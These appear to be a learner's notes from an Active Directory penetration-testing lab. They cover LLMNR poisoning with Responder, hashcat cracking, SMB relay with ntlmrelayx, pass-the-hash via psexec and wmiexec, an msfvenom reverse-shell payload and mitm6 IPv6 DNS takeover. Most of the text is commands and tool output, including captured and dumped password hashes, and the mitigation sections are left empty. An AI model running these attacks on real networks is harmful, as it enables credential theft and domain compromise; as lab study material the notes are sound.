

1) LLMNR Poisoning
LLMNR (Link Local Multicast Name Resolution) Used to identify hosts when DNS fails to do so
Previously called NBT-NS
Utilzes users username and NTLMv2 hash when responded to appropriately
Man in The Middle Attack
LLMNR is active by default(feature not a bug)
#sudo responder -I eth0 -dwvP
Password cracking uses GPU so do it on host OS as virtual machine only uses CPU


store the hash in hash.txt
#hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
FCASTLE::MARVEL:3510b37ae6ade8c4:f58ac047b9bc37e6ec493ca355494eca:01010000000000001
ea2bdb8c6d4d90171f972777aea430c0000000002000800420039003700320001001e00570049004e002
d0054004700460039004d0031005a004400420048005a000400140042003900370032002e004c004f004
30041004c0003003400570049004e002d0054004700460039004d0031005a004400420048005a002e004
2003900370032002e004c004f00430041004c000500140042003900370032002e004c004f00430041004c
00080030003000000000000000010000000020000058724487771650a813caf98121031b5a9611409fa91
d2b97122684a09fd102d70a0010000000000000000000000000000000000009001800480054005400500
02f0062007200670077007200670067000000000000000000:P@ssword
Mitigation

2)SMB Relay
Relay the hash to another machine and gain access to it

fcastle is admin on SPIDERMAN as well as PUNISHER
SMB signing must be disabled or not enforced on the machine we are relaying the hash to
First of all identify is SMB signing is disabled or off on the target(spiderman machine in this case)
Can do that with Nessus or Nmap script
Also in etc/responder/Responder.conf, turn off SMB and HTTP so the hashes are not just being captured but relayed
when responder captures a hash, it forwards it to ntlmrelayx which then sends it to the target
#nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24 -Pn
to check whether smb signing enabled or not
SMB signing enabled in domain controller
#nmap --script=smb2-security-mode.nse -p445 192.168.57.27 -Pn
PORT STATE SERVICE
445/tcp open microsoft-ds
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
not required in SPIDERMAN machine
#impacket-ntlmrelayx -tf target.txt -smb2support
-tf : target file containg IP of target to which we forward the hash
OR
#impacket-ntlmrelayx -t 192.168.57.27 -smb2support
[*] Authenticating against smb://192.168.57.27 as MARVEL/FCASTLE SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] SMBD-Thread-8 (process_request_thread): Connection from 192.168.57.26 controlled, but there are no more targets left!
[*] Target system bootKey: 0x98aa35ceff09d8b17cd065f1e7d980d9
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:d0b242c83f473547e5dd3b675a709363:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:ead0cc57ddaae50d876b7dd6386fa9c7:::
[*] Done dumping SAM hashes for host: 192.168.57.27
#impacket-ntlmrelayx -t 192.168.57.27 -smb2support -c "whoami"
-c : to run command
#impacket-ntlmrelayx -t 192.168.57.27 -smb2support -i
-i : get interactive shell
#impacket-ntlmrelayx -t 192.168.57.27 -smb2support
#impacket-ntlmrelayx -t 192.168.57.27 -smb2support -e shell.exe
-e : run executable on target, can be used to get reverse shell
generate shell.exe using
#msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.57.5 LPORT=4444 -f exe -o shell.exe
Mitigation

Gaining Shell Access
Metasploit
#msfconsole
#seach psexec
4 exploit/windows/smb/psexec
#use 4
#set payload windows/x64/meterpreter/reverse_tcp
#set smbuser fcastle
#set rhost 192.168.57.26
#set smbpass P@ssword
#show targets
#set target Automatice / OR native
#run
OR
to login locally, use SAM hash got from SPIDERMAN
#unset smbdomain
#set smbuser administraotr
# set smbpass aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
first part before : is LM part and after : is NT part
#unset smbdomain
Not using metasploit
#sudo psexec.py MARVEL.local/fcastle:'P@ssword'@192.168.57.26
if cannot put Password inside ' '
do
#sudo psexec.py MARVEL.local/fcastle:@192.168.57.26
: is necessay after username
and it will prompt for password afterwards
#psexec.py administrator@192.168.57.27 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
OR
#wmiexec.py administrator@192.168.57.27 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
OR
#smbexec.py administrator@192.168.57.27 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
3) IPv6 Attack
DNS takeover via IPv6
Normally we use IPv4 and IPv6 isnt used at all, but it is turned on if we check in adapter settings
So who does DNS for IPv6? Answer is Nobody
attack machine acts like dns for ipv6
So on attacker machine, we setup to respond to IPv6 packets
When this happens, we can get authentication to Domain Controller via LDAP or SMB
We can only relay NTLM hashes, not NTLMv2 hashes
#impacket-ntlmrelayx -6 -t ldaps://192.168.57.25 -wh fakewpad.marvel.local -l lootme
Point to Domain Controller
-6:ipv6
t:target
-l:lootme folder we get
#sudo mitm6 -d marvel.local
reboot or login to a device
*] HTTPD(80): Connection from ::ffff:192.168.57.26 controlled, attacking target ldaps://192.168.57.25
[*] HTTPD(80): Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Authenticating against ldaps://192.168.57.25 as MARVEL/THEPUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD(80): Authenticating against ldaps://192.168.57.25 as MARVEL/THEPUNISHER$ SUCCEED
[*] Domain info dumped into lootdir!

Can also check honepots, if they have no logins
Login in any PC as MARVEL\administrator
This creates a new user
Mitigation

INITIAL ATTACK STRATEGY
Start with either Responder or MITM6
Run mitm6 only for 5-10 mins
When running responder, also run scans like nessus or nmap to generate traffic